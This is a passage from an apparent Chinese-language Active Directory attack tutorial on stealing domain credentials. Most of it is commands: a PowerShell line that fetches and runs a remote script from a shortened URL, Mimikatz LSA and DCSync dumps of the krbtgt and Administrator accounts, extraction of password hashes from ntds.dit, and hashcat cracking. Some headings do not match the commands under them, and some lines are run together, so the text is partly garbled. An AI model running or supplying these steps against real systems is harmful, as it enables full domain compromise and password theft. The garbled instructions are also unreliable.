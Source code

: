 ```
Powershell IEX (New-Object Net.WebClient).DownloadString('http://is.gd/oeoFuI'); Invoke-Mimikatz -Command ‘”privilege::debug” “LSADump:LSA /inject”‘ -Computer pentest.com
```

```
Mimikatz "privilege::debug" "lsadump::dcsync /domain:rd.adsecurity.org /user：krbtgt"exit
```

利用这种方法可以和上面的 Kerberos 票结合来实现

使用 DIT Snapshot Viewer 可以验证我们是否成功地获得了 ntds.dit 文件。

```
Mimikatz "privilege::debug" "lsadump::dcsync /domain:rd.adsecurity.org /user：Administrator" exit
```

### **NTDSUtil 获取 ntds.dit 文件**

Ntdsutil.exe 是一个为 Active Directory 提供管理设施的命令行工具。

使用 NTDSUTIL 的 IFM 创建（VSS 卷影副本）在 DC 上本地引用 ntds.dit

NTDSUtil 是本地处理 AD DB 的命令实用程序（ntds.dit），并为 DCPromo 启用 IFM 集创建。IFM 与 DCPromo 一起用于 “从媒体安装”, 因此被升级的服务器不需要通过网络从另一个 DC 复制域数据。

```
wget https://github.com/libyal/libesedb/releases/download/20170121/libesedb-experimental-20170121.tar.gz`
apt-get install autoconf automake autopoint libtool pkg-config
./configure
make
make install
ldconfigesedbexport -m tables ntds.dit
```

```
git clone https://github.com/csababarta/ntdsxtract.git
python setup.py build && python setup.py install
```

此命令也可以通过 WMI 或 PowerShell 远程执行。

### **PowerShell 提取 ntds.dit**

使用 PowerSploit 的 Invoke-NinjaCopy 远程提取 ntds.dit（需要在目标 DC 上启用 PowerShell 远程处理功能）。

Invoke-NinaCopy 是一个 PowerShell 函数，它可以利用 PowerShell 远程处理（必须在目标 DC 上启用 PowerShell 远程处理），从远程计算机上复制文件（即使文件已锁定，可直接访问文件）。

```
$ dsusers.py ntds.dit.export/datatable.3 ntds.dit.export/link_table.5 output --syshive SYSTEM --passwordhashes --pwdformat ocl --ntoutfile ntout --lmoutfile lmout |tee all_user_info.txt
```

```
hashcat -m 1000 ntout ./password.txt
```

```
https://adsecurity.org/?p=1929
DS恢复模式密码维护
https://blogs.technet.microsoft.com/askds/2009/03/11/ds-restore-mode-password-maintenance/
```
